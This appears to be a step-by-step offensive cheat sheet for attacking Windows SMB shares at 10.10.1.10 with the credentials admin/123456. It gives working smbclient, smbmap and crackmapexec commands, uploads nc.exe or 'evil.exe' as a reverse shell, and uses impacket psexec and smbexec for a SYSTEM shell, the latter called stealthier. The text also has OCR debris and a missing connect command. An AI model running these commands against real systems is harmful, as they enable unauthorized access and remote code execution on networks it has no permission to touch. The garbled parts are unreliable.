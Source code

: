 ### 🔹 Step 1: List Available Shares

bash

CopiarEditar

`smbclient -L \\\\10.10.1.10 -U admin%123456`

 Look for shares like:
 
 - `C$` (admin)
- `Users`
- `Shared`
- `IPC$` (not useful)
- Anything custom

---

### 🔹 Step 2: Connect to a Share

Once you find a share:

```
   # Take screenshots of EVERY step
```

You’ll get a prompt like `smb: \>`.

### 🔸 Useful Commands in smbclient:

```
ls               # list files cd foldername    # change directory get file.txt     # download file put shell.exe    # upload a file
```

---

### 🔹 Step 3: Recursively Enumerate with smbmap

```
smbmap -H 10.10.1.10 -u admin -p 123456
```

This gives a full tree view of file permissions and accessible directories.

---

### 🔹 Step 4: Use crackmapexec to Check Privileges

```
crackmapexec smb 10.10.1.10 -u admin -p 123456
```

Look for:

- nginx

```
SMB         10.10.1.10      445    DESKTOP-X    [+] admin:123456 (Pwn3d!)
```

If you see `(Pwn3d!)` — you likely have full admin access.

---

## 🧨 Bonus: Upload and Execute Reverse Shell

If you can **write to a share** and have **command execution access** (e.g., via scheduled task, service abuse, or RPC), upload a reverse shell (e.g., `nc.exe`, `evil.exe`), and:

1. Upload shell:

```
smbclient \\\\10.10.1.10\\SHARENAME -U admin%123456 put nc.exe
```

2. Trigger execution (via RCE method — needs context).

---

## 🚀 Next Steps (If Admin on SMB)

If CrackMapExec says `Pwn3d!`, try:

### 🛠️ `impacket-psexec`:


```
impacket-psexec admin:123456@10.10.1.10
```

Gives direct SYSTEM shell over SMB.

Or:

### ⚙️ `impacket-smbexec` (slightly stealthier):

```
impacket-smbexec admin:123456@10.10.1.10
```